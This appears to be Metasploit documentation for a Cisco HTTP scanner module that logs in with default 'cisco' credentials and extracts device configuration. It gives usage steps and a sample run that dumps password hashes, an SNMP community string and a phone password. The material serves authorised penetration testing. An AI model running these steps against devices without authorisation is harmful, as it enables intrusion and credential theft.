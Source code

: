 ## Description

  This module scans for the presence of the HTTP interface for a cisco device and attempts to enumerate it using basic authentication.

## Vulnerable Application

  Any Cisco networking device with the HTTP interface turned on.

## Verification Steps

  1. Enable the web interface on a cisco device `ip http server`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/cisco_device_manager```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```run```

## Options

### HttpUsername

  Username to use for basic authentication.  Default value is `cisco`

### HttpPassword

  Password to use for basic authentication.  Default value is `cisco`

## Scenarios

### Tested on Cisco UC520-8U-4FXO-K9 running IOS 12.4

  ```
  msf > use auxiliary/scanner/http/cisco_device_manager 
  msf auxiliary(scanner/http/cisco_device_manager) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf auxiliary(scanner/http/cisco_device_manager) > set vebose true
  vebose => true
  msf auxiliary(scanner/http/cisco_device_manager) > run
  
  [+] 2.2.2.2:80 Successfully authenticated to this device
  [+] 2.2.2.2:80 Processing the configuration file...
  [+] 2.2.2.2:80 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
  [+] 2.2.2.2:80 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
  [+] 2.2.2.2:80 SNMP Community (RO): public
  [+] 2.2.2.2:80 ePhone Username 'phoneone' with Password: 111111
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
